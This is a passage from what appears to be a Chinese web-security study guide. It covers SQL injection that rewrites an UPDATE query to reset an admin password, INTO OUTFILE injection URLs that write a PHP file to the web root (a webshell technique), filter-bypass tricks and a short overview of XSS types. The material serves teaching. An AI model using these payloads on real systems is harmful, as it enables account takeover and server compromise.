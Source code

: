 b、修改 password 值为mypass)' WHERE username='admin'#

之后 SQL 语句变为

```
UPDATE user SET password='MD5(mypass)' WHERE username='admin'#)', homepage='$homepage' WHERE id='$id'
```

c、修改 id 值为' OR username='admin'之后 SQL 语句变为

```
UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='' OR username='admin'
```

## 九、SQL如何写shell/单引被过滤怎么办

写shell: root权限，GPC关闭，知道文件路径 outfile函数

```
http://127.0.0.1:81/sqli.php?id=1 into outfile 'C:\\wamp64\\www\\phpinfo.php' FIELDS TERMINATED BY '<?php phpinfo(); ?>'
http://127.0.0.1:81/sqli.php?id=-1 union select 1,0x3c3f70687020706870696e666f28293b203f3e,3,4 into outfile 'C:\\wamp64\\www\\phpinfo.php'
```

宽字节注入

### 1、代替空格的方法

%0a、%0b、%a0 等
/**/ 等注释符
<>

### 2、mysql的网站注入，5.0以上和5.0以下有什么区别

5.0以下没有information_schema这个系统表，无法列表名等，只能暴力跑表名。

5.0以下是多用户单操作，5.0以上是多用户多操做。

## 十、XSS

1、XSS原理

反射型

用户提交的数据中可以构造代码来执行，从而实现窃取用户信息等攻击。需要诱使用户“点击”一个恶意链接，才能攻击成功

存储型

存储型XSS会把用户输入的数据“存储”在服务器端。这种XSS具有很强的稳定性。

DOM型

通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS。

### 2、DOM型和反射型的区别
